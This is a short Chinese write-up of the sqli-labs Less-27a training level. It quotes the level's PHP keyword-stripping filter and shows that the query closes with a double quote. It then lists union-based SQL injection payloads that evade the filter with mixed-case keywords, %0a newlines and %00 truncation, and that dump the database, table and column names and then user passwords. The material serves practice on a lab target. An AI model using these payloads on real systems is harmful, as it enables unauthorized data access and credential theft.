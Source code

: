 ```yaml
---
title: less27a
url: https://www.yuque.com/u29002979/ep2zrx/lgo2i0n2e5wkpr0w
---
```


```bash
$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";

$id= preg_replace('/[\/*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		  //Strip out --.
$id= preg_replace('/[#]/',"", $id);			  //Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.

$id= preg_replace('/select/m',"", $id);	  //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	   //Strip out union
$id= preg_replace('/select/s',"", $id);	   //Strip out select
$id= preg_replace('/UNION/s',"", $id);	   //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	   //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	   //Strip out Union
$id= preg_replace('/Select/s',"", $id);	   //Strip out Select
```

发现闭合方式为**双引号**，其余与Less27相同

`1"`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-27a\index.php** on line **37**

双引号闭合

<a name="nAsN4"></a>

# 联合注入

> uniOn
> selEct
> %0a：空格
> 00截断：%00

```bash
爆破数据库名称
0"%0a uniOn %0a selEct %0a 1,2,database();%00
爆破数据表名称
0"%0a uniOn %0a selEct %0a 1,2,(selEct %0a group_concat(table_name) %0a from %0a information_schema.tables %0a where %0a table_schema=database());%00 
爆破字段名
0"%0a uniOn %0a selEct %0a 1,2,(selEct%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0aand%0atable_name='users');%00
爆破字段内容
0"%0a uniOn %0a selEct %0a 1,2,(selEct(group_concat(username,0x7e,password))from%0ausers);%00
```
